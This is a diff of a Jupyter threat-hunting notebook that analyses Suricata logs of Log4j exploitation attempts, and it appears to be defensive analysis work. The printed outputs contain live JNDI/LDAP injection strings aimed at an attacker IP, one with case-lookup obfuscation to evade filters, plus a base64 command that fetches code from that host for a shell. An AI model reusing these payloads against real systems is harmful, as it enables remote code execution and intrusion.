

Before and after one commit to StamusNetworks/suricata-analytics, a Jupyter notebook: jupyter/Notebooks/JupyterPlaybooksForSuricata.ipynb, the cells around one changed output, grey strips where cells are left out. Cells and saved outputs as stored; diff of their text form; code cells hidden in the pictures; blank space fills up the shorter version.

```diff
--- a/jupyter/Notebooks/JupyterPlaybooksForSuricata.ipynb
+++ b/jupyter/Notebooks/JupyterPlaybooksForSuricata.ipynb
@@ -471,0 +749,35 @@ DF.describe()
+# %%
+COLUMNS = ["flow_id", "src_ip", "dest_ip", "event_type", "http.hostname", "http.url", "fileinfo.filename", "http.http_refer"]
+DF_LOG4J[COLUMNS]
+# %% [output]
+|  | flow_id | src_ip | dest_ip | event_type | http.hostname | http.url | fileinfo.filename | http.http_refer |
+| 1723 | 42135186956994 | 195.54.160.149 | 198.71.247.91 | alert | 198.71.247.91 | /?x=${jndi:ldap://195.54.160.149:... | NaN | ${jndi:${lower:l}${lower:d}${lowe... |
+| 1732 | 42135186956994 | 198.71.247.91 | 195.54.160.149 | fileinfo | 198.71.247.91 | /?x=${jndi:ldap://195.54.160.149:... | / | ${jndi:${lower:l}${lower:d}${lowe... |
+| 6071 | 42135186956994 | 195.54.160.149 | 198.71.247.91 | flow | NaN | NaN | NaN | NaN |
+| 1724 | 42135186956994 | 195.54.160.149 | 198.71.247.91 | http | 198.71.247.91 | /?x=${jndi:ldap://195.54.160.149:... | NaN | ${jndi:${lower:l}${lower:d}${lowe... |
+| 3222 | 518356397128850 | 195.54.160.149 | 198.71.247.91 | alert | 198.71.247.91 | /?x=${jndi:ldap://195.54.160.149:... | NaN | ${jndi:${lower:l}${lower:d}${lowe... |
+| 3232 | 518356397128850 | 198.71.247.91 | 195.54.160.149 | fileinfo | 198.71.247.91 | /?x=${jndi:ldap://195.54.160.149:... | / | ${jndi:${lower:l}${lower:d}${lowe... |
+| 25618 | 518356397128850 | 195.54.160.149 | 198.71.247.91 | flow | NaN | NaN | NaN | NaN |
+| 3228 | 518356397128850 | 195.54.160.149 | 198.71.247.91 | http | 198.71.247.91 | /?x=${jndi:ldap://195.54.160.149:... | NaN | ${jndi:${lower:l}${lower:d}${lowe... |
+# %% [markdown]
+On closer inspection, we notice that both connections attempt to execute the same exploitation script.
+# %%
+(
+    DF_LOG4J["http.url"]
+    .dropna()
+    .unique()
+)
+# %% [output]
+array(['/?x=${jndi:ldap://195.54.160.149:12344/Basic/Command/Base64/KGN1cmwgLXMgMTk1LjU0LjE2MC4xNDk6NTg3NC8xOTguNzEuMjQ3LjkxOjgwfHx3Z2V0IC1xIC1PLSAxOTUuNTQuMTYwLjE0OTo1ODc0LzE5OC43MS4yNDcuOTE6ODApfGJh ...
+      dtype=object)
+# %% [markdown]
+Likewise, we can verify that `http.http_refer` is actually the same script with additional bypass to sanitation. Connection parameters are the same, and so is the base64 encoded payload.
+# %%
+(
+    DF_LOG4J["http.http_refer"]
+    .dropna()
+    .unique()
+)
+# %% [output]
+array(['${jndi:${lower:l}${lower:d}${lower:a}${lower:p}://195.54.160.149:12344/Basic/Command/Base64/KGN1cmwgLXMgMTk1LjU0LjE2MC4xNDk6NTg3NC8xOTguNzEuMjQ3LjkxOjgwfHx3Z2V0IC1xIC1PLSAxOTUuNTQuMTYwLjE0OTo1 ...
+      dtype=object)
```
Also changed, not shown: parts of 78 cells of this notebook.
